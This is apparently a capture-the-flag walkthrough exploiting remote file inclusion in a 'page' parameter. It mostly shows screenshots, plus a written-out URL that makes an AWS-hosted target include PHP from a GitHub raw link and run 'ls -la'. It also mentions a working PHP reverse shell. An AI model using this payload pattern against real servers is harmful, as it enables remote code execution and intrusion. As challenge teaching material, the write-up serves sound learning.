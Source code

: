 when press Nothing as we can see a parameter page shows up :

![image](https://user-images.githubusercontent.com/67979878/128606325-65e8b66a-30f6-4b13-a549-01abb226920c.png)


try this and seems to be RFI (remote file inclusion)

![image](https://user-images.githubusercontent.com/67979878/128606348-dedc5118-b990-4193-aa9b-d82318e3332f.png)

i uploaded a php code on a website : 'you can use pastepin or github and get raw link'


![image](https://user-images.githubusercontent.com/67979878/128606388-c3daa7ce-97d5-4a68-8b87-606c366f4620.png)


now let's prepare our page parameter value ;) 

http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/global/?page=https://raw.githubusercontent.com/HussienMisbah/test/main/test.php&cmd=ls%20-la


![image](https://user-images.githubusercontent.com/67979878/128606469-9bcbc1f4-5676-4861-b926-46120fcc4225.png)


![image](https://user-images.githubusercontent.com/67979878/128606525-1e6e0cfe-2599-4ea3-810a-2f140df5b46b.png)

edit : i tried to upload a php reverse shell and it worked as well  so you can navigate and read /var/www/html/index.php from the server it self :) 

# done
